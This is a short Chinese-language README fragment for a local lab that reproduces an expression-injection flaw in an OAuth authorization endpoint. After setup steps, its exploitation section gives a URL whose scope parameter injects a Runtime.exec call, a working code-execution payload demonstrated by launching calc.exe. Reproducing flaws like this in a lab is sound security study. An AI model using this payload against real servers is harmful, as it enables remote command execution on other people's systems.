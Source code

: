 修改数据库的配置信息（修改源代码中的`application.properties`中的数据库的用户名和密码参数为本机的数据库和密码的参数。）：

![1565768675076](README.assets/1565768675076.png)

然后启动就可以看到界面了。

![1565768738764](README.assets/1565768738764.png)

授权页面：

```
localhost:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.baidu.com
```







## 0x02 利用过程



**payload：**

```
http://localhost:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.baidu.com&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22calc.exe%22%29%7D
```

